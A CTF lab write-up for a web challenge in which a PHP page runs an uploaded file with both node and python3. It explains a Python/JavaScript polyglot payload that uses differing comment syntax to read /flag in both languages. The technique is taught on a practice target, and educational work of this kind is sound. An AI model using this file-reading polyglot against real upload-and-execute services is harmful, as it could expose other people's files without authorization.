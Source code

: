```yaml
---
title: Simple Welcome - 0x04(Lab - Script)
tags: [CTF, Web, eductf]

---
```


# Simple Welcome - 0x04(Lab - Script)
###### tags: `CTF` `Web` `eductf`
Challenge: https://pyscript.ctf.zoolab.org/

## Source Code
```php=
<?php
    if(!isset($_FILES["file"]))
        highlight_file(__file__) && die();
    $flag = file_get_contents('/flag');
    $node = @`node {$_FILES["file"]["tmp_name"]} 2>&1`;
    $python = @`python3 {$_FILES["file"]["tmp_name"]} 2>&1`;
    if($flag === $node && $flag === $python)
        echo 'Here is your Flag: '.$flag;
    else
        echo 'Fail :(';
?>
```
### Analysis
Must write a script that can be executed in python and node language simultaneously.

## Exploit - Using comment
1. In python
The comment is `#` for single line and `'''` for multi lines
2. In node
The comment is `//` for single line and `/**/` for multi lines
3. Using different definition of comment to write script
Some tips:
    ```python!
    a = 1 // 1;
    b = ''''''
    ```
    Both of these instruction are valid in python
4. Whole payload
* Python
    ```python!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```
* Javascript
    ```javascript!
    a = 1 // 1 ; b = '''

    console.log('Javascript code here');

    /* '''

    print('Python code here')

    # */
    ```

* Whole exploit
    ```!=
    a = 1 // 1 ; b = '''

    const fs = require('fs');

    fs.readFile("/flag", 'utf8',(error, data) => {
        if (error) {
            console.error(error);
            return;
        }
        console.log(data.split('\n')[0]);
    })

    /* '''

    f = open("/flag", "r")
    print(f.read().split('\n')[0])
    # */
    ```
## Reference
[【已解决】PHP中函数前面加上at符号@的作用](https://www.crifan.com/php_function_front_at_sign_meaning/)
[[shell 2>&1是甚麼意思]](https://charleslin74.pixnet.net/blog/post/405455902)
[How to open a local file with JavaScript?](https://researchhubs.com/post/computing/javascript/open-a-local-file-with-javascript.html)
[How to Read/Write local files with Node.js](https://medium.com/@SergioPietri/how-to-read-write-local-files-with-node-js-3d2f58b0384)
[String.prototype.split()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/split)
